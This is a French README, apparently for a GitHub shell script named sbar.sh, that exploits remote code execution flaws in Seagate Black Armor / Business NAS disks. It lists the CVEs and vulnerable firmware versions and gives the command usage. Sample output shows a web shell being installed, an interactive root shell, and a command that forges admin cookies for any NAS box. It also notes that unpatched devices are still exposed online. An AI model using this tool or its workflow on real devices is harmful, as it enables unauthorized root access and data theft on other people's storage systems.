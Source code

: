 # Seagate Black Armor Raper

# DESCRIPTION:
 - Ce script execute exploite une vulnerabilité des disque Seagate Black Armor d'une certaine version.
 - Il demeure encore des disque ouvert à internet et qui ne sont toujours pas mis-à-jour.

# EXPLOIT/VULNERABILITE:
 - EDB-ID:36202		Seagate Business NAS 2014.00319 - Remote Code Execution
 - CVE-2014-8687		Arbitrary Code Execution
 - CVE-2014-8684: 	timing attacks and object injection.
 - CVE-2014-8686: 	a fall-back to the _xor_encode() method of session encryption.

# VERSIONS VULNERABLES:
 - 2014.00319
 - 2013.60311

# UTILISATION:
 - sbar.sh IP PORT
 - Exemple:
 - sbar.sh 127.45.63.89 7009


   - Establishing session with 127.45.63.89 ...
   - Configuring administrative access ...
   - Installing web shell (takes a while) ...
   - Extracting id and hostname ...

   - Seagape v1.0 -- Interactive Seagate NAS Webshell
   -   - OJ Reeves (@TheColonial) - https://beyondbinary.io/
   -   - https://beyondbinary.io/bbsec/001

   - version           - Print the current firmware version to screen.
   - dumpcookie        - Print the current cookie to screen.
   - admincookie <ua>  - Create an admin login cookie (ua == user agent string).
   -                     Add to your browser and access ANY NAS box as admin.
   - help              - Show this help.
   - exit / quit       - Run for the hills.
   - <anything else>   - Execute the command on the server.

   - Seagape (root@WKNAS)>




# EXPLOITATION:
 - Generation/creation de cookie admin et authentificagtion à l'interface d'administration en tant qu'administrateur.
 - Ouverture d'un shell root sur le disque avec accès à la racine du disque

# ATTENTION:
 - N'utiliser que sur ses propres infrastructures
 - Laisse des traces et des fichiers.

# LIENS EXTERNES:
 - https://nvd.nist.gov/vuln/detail/CVE-2014-8687
 - https://beyondbinary.io/articles/seagate-nas-rce/
 - https://www.exploit-db.com/exploits/36202


